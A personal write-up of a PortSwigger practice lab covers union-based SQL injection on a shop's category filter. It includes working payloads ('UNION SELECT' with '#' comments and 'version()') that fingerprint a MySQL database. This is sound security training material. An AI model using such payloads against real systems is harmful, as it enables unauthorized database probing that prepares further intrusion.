


# SQL injection attack, querying the database type and version on MySQL and Microsoft

**Category:** Web Exploitation — SQL Injection  
**Difficulty:** Practitioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft`

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 


---

## Reconnaissance

- What does the application do? 
    - Still the same basic shop website
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - there is no input field (account login vanished) but the user can input text into the url
- What happens with normal input?
    - inputting a normal word instead of the given categories prints the word on the page and shows no results, inputting the given categories works like it should

---

## Analysis

#### Technology Stack
```
Database:   MySQL (# comment confirms it)
Input:      URL
Behavior:   Union-based SQLi
```

#### Vulnerability

- What exactly is vulnerable and why?
    
As per the lab instructions the category filter is vulnerable. 
It probably looks like this:
```sql
SELECT * FROM products WHERE category = '[input]'
```

---

## Solution

### Step 1 - Craft payload

Doing the `ORDER BY` check shows the database has two columns (the `--` are leftover from earlier tries).


We can confirm there are two string columns:
```sql
category=' UNION SELECT 'a', 'a'#
```


---

### Step 2 - Extract / Exploit

Final step to get the version:

```sql
category=' UNION select null,version()# 
```
this returns the database version:


---

## Real World Impact

Textbook database fingerprinting. This is the very first step an attacker takes and of course no business would want an attacker to get this basic info so easily. Especially since it lays the groundwork for anything following.

---

## Learnings

- Even though the cheatsheet just mentions `select version()` if the exploited database returns two columns I have to pad with null like I did above as per the column-count-rule. 